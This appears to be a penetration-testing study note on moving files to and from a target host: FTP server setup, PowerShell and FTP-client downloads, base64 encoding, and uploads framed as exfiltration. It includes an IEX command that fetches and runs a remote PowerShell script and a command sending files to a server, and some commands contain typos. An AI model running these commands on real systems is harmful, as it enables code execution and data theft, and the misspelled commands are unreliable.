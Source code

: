 	- `pip3 install pyftpdlib`
	- `by default pyftpdlib uses port 2121`
	
- ***Setting up a Pyhon3 FTP Server on port 21***

	- `python3 -m pyftpdlib --port 21`
	
- ***Transferring Files from an FTP Server Using PowerShell***

	- `(New-Object Net.WebClient).DownloadFile('ftp://IP/file', 'Destination_path_with_file_name')`

### Create a Command File for the FTP Client and Download the Target File

- cmd:
	- `echo open <target_ip> > ftpcommand.txt`
	- `echo USER <user_name> >> ftpcommand.txt`
	- `echo binary >> ftpcommand.txt`
	- `echo GET file.txt >> ftpcommand.txt`
	- `echo bye >> ftpcommand.txt`
	- remote shell:
		- `ftp -v -n -s:ftpcommand.txt`
		- `open <target_ip>`
		- `USER <user_name>`
		- `GET file.txt`
		- `bye`

# Upload Operations
- Situation like password cracking, analysis, exfiltration, etc.
- Where the file must upload from the target

### PowerShell Base64 Encode & Decode:

- Encode base64 string using Powershell:
	- `[Convert]::ToBase64String((Get-Content -path "<file_path>" -Encoding byte))`
	- `Get-FileHash "file_path" -Algorithm MD5 | select Hash`
	
- Decode base64 string in linux
	- `echo <hash_string> | base64 -d > <file_name>`
	- `md5sum hosts`

### PowerShell Web Uploads

- ==Invoke-WebRequest== or ==Invoke-RestMethod== can be used to build the upload function.
- Use ==PSUUpload.ps1== which uses Invoke-RestMethod to perform the uploads operations.
- It accepts two parameters 
	- -File
	- -Uri
- PowerShell Script to upload a File to Python Upload Server: 
	- `IEX(New-Object Net.WebCilent).Downloading('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
	
	- `Invoke-FileUploads -Uri https://IP:port/uploads -File <File_path>`
		- {required to start a web-upload server}
		